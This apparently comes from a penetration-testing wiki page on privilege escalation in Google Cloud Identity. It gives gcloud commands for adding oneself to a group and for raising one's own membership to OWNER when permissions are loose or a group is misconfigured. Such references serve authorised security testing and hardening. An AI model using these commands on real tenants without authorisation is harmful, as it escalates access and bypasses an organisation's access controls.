 # GCP - Cloudidentity Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloudidentity

For more information about the cloudidentity service, check this page:

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### Add yourself to a group

If your user has enough permissions or the group is misconfigured, he might be able to make himself a member of a new group:

```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```

### Modify group membership

If your user has enough permissions or the group is misconfigured, he might be able to make himself OWNER of a group he is a member of:

```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```

{{#include ../../../banners/hacktricks-training.md}}



